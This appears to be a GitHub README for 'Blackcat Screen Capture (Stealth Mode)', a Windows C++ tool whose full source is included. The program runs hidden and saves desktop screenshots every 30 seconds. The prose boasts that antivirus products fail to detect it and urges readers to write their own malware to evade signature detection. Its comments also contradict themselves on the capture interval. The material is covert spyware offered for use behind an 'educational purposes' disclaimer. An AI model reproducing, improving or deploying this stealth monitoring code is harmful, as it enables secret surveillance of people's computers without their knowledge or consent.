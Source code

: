 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" >

## Blackcat Screen Capture (Stealth Mode) :

It is primary designed to be hidden and monitoring the computer activity. Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

### Why Programming Is Important for Hackers to Know :

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

> <b>Building your own malware. </b>
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

> <b>Knowing how programs work will help you exploit them. </b>
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

> <b>Hacking tools are mostly open source. </b>
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

> <b>Making your own exploits. </b>
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

I choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.

### Prerequisites:

1. Microsoft Windows System
2. Visual Studio 2012

### Screenshot.zip (Files Included in Repo)

Contain Executable Version of Program. It run in Stealth Mode and Capture the Screenshot after 60 seconds of interval. Imaege name is based on Current System Time.

### Source Code :

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

//char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;  // rectangle  Object

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);  //create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);  //copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;   //get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());  //sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder);   //save in jpeg format
	SelectObject(dc2,holdbitmap);  //Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;  // create object of system time 
	GetLocalTime(&st);
	int year = st.wYear;  // extract year from system time
	int month = st.wMonth; // extract month from system time
	int day = st.wDay; // extract year day system time
	int hour = st.wHour; // extract year hours system time
	int mintue = st.wMinute; // extract mintue from system time

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;  // create complete string of date and time
	
	screenshot(startDate);   // send string to screenshot function
	Sleep(1000*30*1);  // delay execution of function 60 Seconds
	}
}

```
## Version

1.7

## Happy Open Source
